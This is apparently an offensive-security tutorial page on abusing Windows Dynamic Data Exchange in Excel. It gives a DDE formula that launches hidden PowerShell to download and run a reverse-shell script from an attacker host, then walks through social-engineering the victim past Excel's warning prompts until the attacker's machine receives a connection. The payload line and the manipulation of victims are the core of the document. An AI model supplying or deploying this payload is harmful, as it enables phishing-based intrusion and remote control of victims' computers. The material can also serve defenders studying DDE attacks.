

# Attachments: DDE

Windows Dynamic Data Exchange (DDE) is a protocol that allows applications to communicate with each other in real-time. This can be extremely useful for sending data back and forth between different programs, automating tasks, and even updating information automatically as it changes. DDE can be used for one-time communications between applications, as well as for continuous communication where data is updated in real-time.

One key feature of DDE is the ability for applications to exchange not only strings of data, but also warm data links and hot data links. Warm data links allow applications to receive notifications when a data item changes, while hot data links allow changes to a data item to be duplicated in another application. Additionally, DDE allows for requests for command execution, giving applications the ability to trigger actions in another program.

Object Linking and Embedding (OLE), which allows for linking data between documents, was originally implemented through DDE. While OLE has been superseded by Component Object Model (COM), DDE can still be enabled in Windows 10 and in most versions of Microsoft Office 2016 using Registry Keys.

Unfortunately, some features that make DDE so useful for legitimate communications between applications can also be exploited by adversaries to execute arbitrary commands. By embedding DDE commands in Microsoft Office documents, adversaries can use phishing campaigns or hosted web content to deliver malicious code without relying on Visual Basic for Applications (VBA) macros. This can allow attackers to execute commands on compromised machines without needing direct access to run code via the command line.

In this scenario, we will focus on using Excel to demonstrate DDE techniques. While some products no longer support DDE, Excel and Outlook still do by default. By typing specific DDE syntax into the formula box of an Excel spreadsheet, we can demonstrate how commands can be executed using this protocol.

<figure><figcaption></figcaption></figure>

In the formula box, we will input the following syntax. In case of a formula error, the system typically highlights the specific location of the error. Although it often involves some trial and error, this syntax should be straightforward to follow.

`=cmd|'/c powershell.exe -w hidden IEX (New-ObjectNet.WebClient).DownloadString(\"http://10.0.2.8:8080/Invoke-PowerShellTcp.ps1\");'!_xlbgnm.A1`

Following this step, we will require and configure our web server and listener. This setup allows the DDE to download and execute our shell, while our listener captures the executed code. 

<figure><figcaption></figcaption></figure>

A straightforward warning will prompt the user to enable the content. Our social engineering tactics will come into play here as we provide an explanation of why the user should take this action.

<figure><figcaption></figcaption></figure>

Once enabled, a second prompt will appear, indicating what is attempting to be executed. If we successfully guide the user past this point, our progress should be favorable.

<figure><figcaption></figcaption></figure>

Upon clicking "Yes," our attacking machine registers a connection, providing us with a successful point of entry.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
